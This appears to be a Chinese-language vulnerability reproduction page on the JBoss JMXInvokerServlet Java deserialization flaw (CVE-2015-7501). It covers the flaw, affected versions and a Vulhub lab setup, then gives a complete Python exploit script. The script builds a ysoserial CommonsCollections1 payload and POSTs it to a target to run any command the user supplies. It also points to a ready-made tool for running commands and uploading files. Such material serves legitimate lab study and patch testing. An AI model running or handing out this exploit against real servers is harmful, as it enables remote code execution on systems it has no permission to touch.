

JBoss JMXInvokerServlet 反序列化漏洞 CVE-2015-7501¶
漏洞描述¶
这是经典的JBoss反序列化漏洞，JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。
参考文档：
- https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- https://www.seebug.org/vuldb/ssvid-89723
- http://www.freebuf.com/sectool/88908.html
- https://paper.seebug.org/312/
漏洞影响¶
JBoss AS 4.x及之前版本
环境搭建¶
Vulhub启动漏洞环境
docker-compose up -d
首次执行时会有1~3分钟时间初始化，初始化完成后访问http://your-ip:8080/即可看到JBoss默认页面。

漏洞复现¶
JBoss在处理/invoker/JMXInvokerServlet请求的时候读取了对象，所以我们直接将ysoserial生成好的POC附在POST Body中发送即可。整个过程可参考JBoss 5.x/6.x 反序列化漏洞 CVE-2017-12149。
网上已经有很多EXP了，比如DeserializeExploit.jar，直接用该工具执行命令、上传文件即可。
漏洞EXP¶
#! /usr/bin/env python2
# Jboss Java Deserialization RCE (CVE-2015-7501)
# Made with <3 by @byt3bl33d3r
from __future__ import print_function
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import argparse
import sys, os
#from binascii import hexlify, unhexlify
from subprocess import check_output
ysoserial_default_paths = ['./ysoserial.jar', '../ysoserial.jar']
ysoserial_path = None
parser = argparse.ArgumentParser()
parser.add_argument('target', type=str, help='Target IP')
parser.add_argument('command', type=str, help='Command to run on target')
parser.add_argument('--proto', choices={'http', 'https'}, default='http', help='Send exploit over http or https (default: http)')
parser.add_argument('--ysoserial-path', metavar='PATH', type=str, help='Path to ysoserial JAR (default: tries current and previous directory)')
if len(sys.argv) < 2:
parser.print_help()
sys.exit(1)
args = parser.parse_args()
if not args.ysoserial_path:
for path in ysoserial_default_paths:
if os.path.exists(path):
ysoserial_path = path
else:
if os.path.exists(args.ysoserial_path):
ysoserial_path = args.ysoserial_path
if ysoserial_path is None:
print('[-] Could not find ysoserial JAR file')
sys.exit(1)
if len(args.target.split(":")) != 2:
print('[-] Target must be in format IP:PORT')
sys.exit(1)
if not args.command:
print('[-] You must specify a command to run')
sys.exit(1)
ip, port = args.target.split(':')
print('[*] Target IP: {}'.format(ip))
print('[*] Target PORT: {}'.format(port))
gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections1', args.command])
r = requests.post('{}://{}:{}/invoker/JMXInvokerServlet'.format(args.proto, ip, port), verify=False, data=gadget)
if r.status_code == 200:
print('[+] Command executed successfully')